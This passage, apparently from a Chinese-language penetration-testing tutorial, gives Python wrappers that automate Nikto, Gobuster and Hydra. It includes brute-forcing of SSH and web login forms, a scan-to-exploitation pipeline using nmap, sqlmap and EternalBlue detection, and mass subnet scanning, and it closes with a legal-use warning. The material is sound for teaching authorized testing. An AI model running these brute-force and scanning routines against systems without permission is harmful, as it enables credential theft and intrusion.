        cmd = [self.tool_path] + args
        print(f"[*] 执行: {' '.join(cmd)}")

        try:
            result = subprocess.run(
                cmd,
                capture_output=True,
                text=True,
                timeout=timeout,
                cwd=cwd,
            )
        except subprocess.TimeoutExpired:
            return {
                'error': f'命令超时（{timeout}秒）',
                'stdout': '',
                'stderr': '',
                'returncode': -1,
            }
        except FileNotFoundError as e:
            return {
                'error': f'工具未找到: {e}',
                'stdout': '',
                'stderr': '',
                'returncode': -1,
            }

        parsed = self.parse_output(result.stdout, result.stderr, result.returncode)
        return {
            'stdout': result.stdout,
            'stderr': result.stderr,
            'returncode': result.returncode,
            'parsed': parsed,
        }
```

#### 6.8.2 常用工具封装示例

```python
# ---- Nikto Web 扫描器 ----

class NiktoScanner(SecurityToolBase):
    default_tool_path = 'nikto'

    def scan(self, target, port=80, ssl=False, tuning='1234567890abc'):
        args = ['-h', target, '-p', str(port)]
        if ssl:
            args.append('-ssl')
        args.extend(['-Tuning', tuning, '-Format', 'json', '-output', '/dev/stdout'])
        return self.run(args, timeout=600)

    def parse_output(self, stdout, stderr, returncode):
        try:
            return json.loads(stdout)
        except json.JSONDecodeError:
            # Nikto 的 JSON 输出有时不规范，回退到文本解析
            findings = []
            for line in stdout.splitlines():
                if line.startswith('+ ') and 'OSVDB' in line:
                    findings.append({'raw': line.strip()})
            return findings


# ---- Gobuster 目录扫描 ----

class GobusterScanner(SecurityToolBase):
    default_tool_path = 'gobuster'

    def dir_scan(self, target, wordlist='/usr/share/wordlists/dirb/common.txt',
                 extensions='php,html,js,txt', threads=20):
        args = [
            'dir',
            '-u', target,
            '-w', wordlist,
            '-x', extensions,
            '-t', str(threads),
            '-q',  # 安静模式，只输出结果
        ]
        return self.run(args, timeout=600)

    def dns_scan(self, domain, wordlist='/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt'):
        args = [
            'dns',
            '-d', domain,
            '-w', wordlist,
            '-q',
        ]
        return self.run(args, timeout=600)

    def parse_output(self, stdout, stderr, returncode):
        results = []
        for line in stdout.splitlines():
            # Gobuster 输出格式: /path (Status: 200) [Size: 1234]
            match = re.search(r'(/\S+)\s+\(Status:\s*(\d+)\)\s+\[Size:\s*(\d+)\]', line)
            if match:
                results.append({
                    'path': match.group(1),
                    'status': int(match.group(2)),
                    'size': int(match.group(3)),
                })
        return results


# ---- Hydra 密码爆破 ----

class HydraBruteForcer(SecurityToolBase):
    default_tool_path = 'hydra'

    def brute_ssh(self, target, username, wordlist):
        args = [
            '-l', username,
            '-P', wordlist,
            '-t', '4',
            '-vV',
            target, 'ssh',
        ]
        return self.run(args, timeout=600)

    def brute_http_form(self, target, form_path, username_field,
                        password_field, username, wordlist,
                        fail_string='Login failed'):
        args = [
            '-l', username,
            '-P', wordlist,
            '-t', '4',
            target,
            'http-post-form',
            f'{form_path}:{username_field}=^USER^&{password_field}=^PASS^:{fail_string}',
        ]
        return self.run(args, timeout=600)

    def parse_output(self, stdout, stderr, returncode):
        credentials = []
        for line in stdout.splitlines():
            # 成功格式: [80][http-post-form] host: 192.168.1.100   login: admin   password: 123456
            match = re.search(r'login:\s*(\S+)\s+password:\s*(\S+)', line)
            if match:
                credentials.append({
                    'username': match.group(1),
                    'password': match.group(2),
                })
        return credentials
```

### 6.9 综合自动化工作流

将上述工具串联成完整的渗透测试流水线，是 Python 集成的终极价值。

#### 6.9.1 端到端渗透测试自动化

```python
import json
from datetime import datetime
from pathlib import Path


class PentestPipeline:
    """端到端渗透测试自动化流水线"""

    def __init__(self, target, output_dir='/tmp/pentest'):
        self.target = target
        self.output_dir = Path(output_dir)
        self.output_dir.mkdir(parents=True, exist_ok=True)
        self.report = {
            'target': target,
            'start_time': datetime.now().isoformat(),
            'phases': {},
        }

    def phase_1_reconnaissance(self):
        """阶段一：信息收集"""
        print("\n" + "=" * 60)
        print("[Phase 1] 信息收集")
        print("=" * 60)

        # 1. Nmap 端口扫描
        scanner = NmapScanner()
        scan_results = scanner.scan(self.target, profile='standard')
        scanner.export_json(str(self.output_dir / 'nmap_results.json'))

        # 2. 子域名枚举
        subdomains = dns_enum(self.target.split('/')[0])

        # 3. 目录扫描（如果发现 Web 服务）
        web_ports = []
        for host in scan_results:
            for proto, ports in host['protocols'].items():
                for port_info in ports:
                    if port_info['service'] in ('http', 'https', 'http-proxy'):
                        web_ports.append(port_info['port'])

        gobuster = GobusterScanner()
        dir_results = []
        for port in web_ports:
            protocol = 'https' if port == 443 else 'http'
            result = gobuster.dir_scan(f'{protocol}://{self.target}:{port}')
            dir_results.extend(result.get('parsed', []))

        self.report['phases']['reconnaissance'] = {
            'nmap': scan_results,
            'subdomains': subdomains,
            'directories': dir_results,
            'web_ports': web_ports,
        }

        return scan_results, subdomains, dir_results

    def phase_2_vulnerability_scan(self, nmap_results):
        """阶段二：漏洞扫描"""
        print("\n" + "=" * 60)
        print("[Phase 2] 漏洞扫描")
        print("=" * 60)

        vuln_findings = []

        # 1. Nmap NSE 漏洞脚本
        scanner = NmapScanner()
        for host_info in nmap_results:
            host = host_info['host']
            nse_results = run_nse_scripts(host, script_category='vuln')
            vuln_findings.extend(nse_results)

        # 2. SQLMap 注入测试（对 Web 服务）
        if self.report['phases']['reconnaissance'].get('web_ports'):
            sqli_results = scan_for_sqli(
                f'http://{self.target}',
                level=3, risk=2
            )
            vuln_findings.append({'type': 'sqli', 'results': sqli_results})

        self.report['phases']['vulnerability_scan'] = {
            'findings': vuln_findings,
        }

        return vuln_findings

    def phase_3_exploitation(self, vuln_findings):
        """阶段三：漏洞利用"""
        print("\n" + "=" * 60)
        print("[Phase 3] 漏洞利用")
        print("=" * 60)

        exploited = []

        # 根据发现的漏洞自动选择利用方式
        for finding in vuln_findings:
            if isinstance(finding, dict):
                # 处理 NSE 脚本结果
                script = finding.get('script', '')
                if 'smb-vuln-ms17-010' in script and 'VULNERABLE' in finding.get('output', ''):
                    print(f"[!] {finding['host']} 存在 EternalBlue 漏洞")
                    # 可以调用 Metasploit 进行利用
                    # msf.run_exploit('exploit/windows/smb/ms17_010_eternalblue', ...)

                if 'http-sql-injection' in script:
                    print(f"[!] {finding['host']}:{finding['port']} 存在 SQL 注入")

        self.report['phases']['exploitation'] = {
            'exploited': exploited,
        }
        return exploited

    def generate_report(self):
        """生成最终报告"""
        self.report['end_time'] = datetime.now().isoformat()

        # JSON 报告
        report_path = self.output_dir / 'pentest_report.json'
        with open(report_path, 'w', encoding='utf-8') as f:
            json.dump(self.report, f, indent=2, ensure_ascii=False)

        # 文本摘要
        summary_path = self.output_dir / 'summary.txt'
        with open(summary_path, 'w', encoding='utf-8') as f:
            f.write(f"渗透测试报告\n{'=' * 60}\n")
            f.write(f"目标: {self.target}\n")
            f.write(f"时间: {self.report['start_time']} -> {self.report['end_time']}\n\n")

            for phase_name, phase_data in self.report['phases'].items():
                f.write(f"\n{phase_name}:\n")
                if isinstance(phase_data, dict):
                    for key, value in phase_data.items():
                        if isinstance(value, list):
                            f.write(f"  {key}: {len(value)} 项\n")
                        else:
                            f.write(f"  {key}: {value}\n")

        print(f"\n[+] 报告已生成: {report_path}")
        print(f"[+] 摘要已生成: {summary_path}")
        return report_path


# 执行完整流水线
pipeline = PentestPipeline('192.168.1.0/24')
nmap_results, subdomains, dirs = pipeline.phase_1_reconnaissance()
vulns = pipeline.phase_2_vulnerability_scan(nmap_results)
pipeline.phase_3_exploitation(vulns)
pipeline.generate_report()
```

### 6.10 错误处理与最佳实践

#### 6.10.1 常见陷阱

| 陷阱 | 问题 | 解决方案 |
|---|---|---|
| 权限不足 | SYN 扫描、抓包需要 root | 用 `sudo` 运行或用 `cap_net_raw` 能力 |
| 工具版本不兼容 | API 参数与工具版本不匹配 | 首先检测工具版本，再选择对应 API |
| 子进程死锁 | 大量输出填满管道缓冲区 | 使用 `communicate()` 或 `Popen` + 超时 |
| 网络超时 | 扫描目标不响应导致长时间阻塞 | 为每个操作设置合理超时 |
| 输出解析失败 | 工具输出格式变动 | 使用结构化输出格式（JSON/XML）并做防御性解析 |
| 资源泄漏 | 大量并发扫描耗尽文件描述符和端口 | 限制并发数，使用连接池 |

#### 6.10.2 健壮的子进程执行模式

```python
import subprocess
import signal
import os


def safe_exec(cmd, timeout=300, max_output=10 * 1024 * 1024):
    """安全执行外部命令，避免常见陷阱

    Args:
        cmd: 命令列表
        timeout: 超时秒数
        max_output: 最大输出字节数（防止 OOM）
    Returns:
        dict: stdout, stderr, returncode, timed_out
    """
    try:
        proc = subprocess.Popen(
            cmd,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            preexec_fn=os.setsid,  # 创建新进程组，便于整体杀掉
        )

        try:
            stdout, stderr = proc.communicate(timeout=timeout)
        except subprocess.TimeoutExpired:
            # 超时后杀掉整个进程组
            os.killpg(os.getpgid(proc.pid), signal.SIGTERM)
            try:
                stdout, stderr = proc.communicate(timeout=5)
            except subprocess.TimeoutExpired:
                os.killpg(os.getpgid(proc.pid), signal.SIGKILL)
                stdout, stderr = proc.communicate()

            return {
                'stdout': stdout.decode(errors='replace')[:max_output],
                'stderr': stderr.decode(errors='replace')[:max_output],
                'returncode': -1,
                'timed_out': True,
            }

        return {
            'stdout': stdout.decode(errors='replace')[:max_output],
            'stderr': stderr.decode(errors='replace')[:max_output],
            'returncode': proc.returncode,
            'timed_out': False,
        }

    except FileNotFoundError:
        return {
            'stdout': '',
            'stderr': f'命令未找到: {cmd[0]}',
            'returncode': -1,
            'timed_out': False,
        }
    except PermissionError:
        return {
            'stdout': '',
            'stderr': f'权限不足，尝试 sudo: {" ".join(cmd)}',
            'returncode': -1,
            'timed_out': False,
        }
```

#### 6.10.3 并发扫描控制

在扫描多个目标时，需要控制并发避免触发防御系统或耗尽资源：

```python
import asyncio
from concurrent.futures import ThreadPoolExecutor, as_completed
import time


class ConcurrentScanner:
    """并发扫描控制器"""

    def __init__(self, max_workers=10, delay_between=0.5):
        self.max_workers = max_workers
        self.delay_between = delay_between
        self.executor = ThreadPoolExecutor(max_workers=max_workers)

    def scan_targets(self, targets, scan_func):
        """并发扫描多个目标

        Args:
            targets: 目标列表
            scan_func: 扫描函数，接收单个目标参数
        Returns:
            list: 所有扫描结果
        """
        results = []
        futures = {}

        for i, target in enumerate(targets):
            future = self.executor.submit(scan_func, target)
            futures[future] = target
            # 限制提交速率，避免瞬间压力过大
            if i > 0 and i % self.max_workers == 0:
                time.sleep(self.delay_between)

        for future in as_completed(futures):
            target = futures[future]
            try:
                result = future.result(timeout=600)
                results.append({'target': target, 'result': result, 'error': None})
                print(f"  [+] 完成: {target}")
            except Exception as e:
                results.append({'target': target, 'result': None, 'error': str(e)})
                print(f"  [!] 失败: {target} - {e}")

        self.executor.shutdown(wait=True)
        return results

    def __enter__(self):
        return self

    def __exit__(self, *args):
        self.executor.shutdown(wait=False)


# 使用示例
def quick_scan(target):
    """快速扫描单个目标"""
    scanner = NmapScanner()
    return scanner.scan(target, profile='quick')


targets = [f'192.168.1.{i}' for i in range(1, 255)]
with ConcurrentScanner(max_workers=10, delay_between=1.0) as cs:
    results = cs.scan_targets(targets, quick_scan)
    successful = [r for r in results if not r['error']]
    print(f"\n扫描完成: {len(successful)}/{len(targets)} 个目标成功")
```

### 6.11 法律与道德边界

> **警告：本章所有技术仅用于授权安全测试和安全研究。未经授权对他人系统执行扫描、探测或利用属于违法行为。**

合法使用场景：
- **授权渗透测试**：持有书面授权对特定目标进行安全评估
- **CTF 竞赛**：在隔离环境中练习攻防技能
- **安全研究**：对自有系统或已获得许可的系统进行安全研究
- **漏洞赏金**：在 Bug Bounty 平台规则范围内进行测试

自动化工具的风险：脚本失控可能导致意外的 DoS 攻击或数据损坏，务必在测试前设置速率限制和范围约束。

### 6.12 常见误区与纠正

**误区一：过度依赖工具自动化**

自动化不等于不需要理解。工具可能漏报或误报，只有理解底层原理（协议格式、漏洞成因、利用条件）才能做出正确判断。建议先手动验证几个案例，再扩展到自动化。

**误区二：忽视工具输出的验证**

Nmap 报告的"open"端口可能是蜜罐，SQLMap 声称的注入点可能是误报。永远用第二种方法交叉验证关键发现。

**误区三：在生产环境中直接运行暴力扫描**

对线上服务执行 `-T5` 全端口扫描可能导致服务崩溃。使用 `-T3` 或更低速度，对生产环境优先使用被动扫描和轻量级主动扫描。

**误区四：硬编码工具路径和参数**

不同系统上工具安装位置不同，不同版本的参数可能不兼容。使用配置文件或环境变量管理路径，运行前检测版本。

**误区五：不清理扫描痕迹**

渗透测试需要"干净"的工作环境：每个扫描任务使用独立的日志目录，测试结束后清理临时文件、重置工具状态、关闭代理。
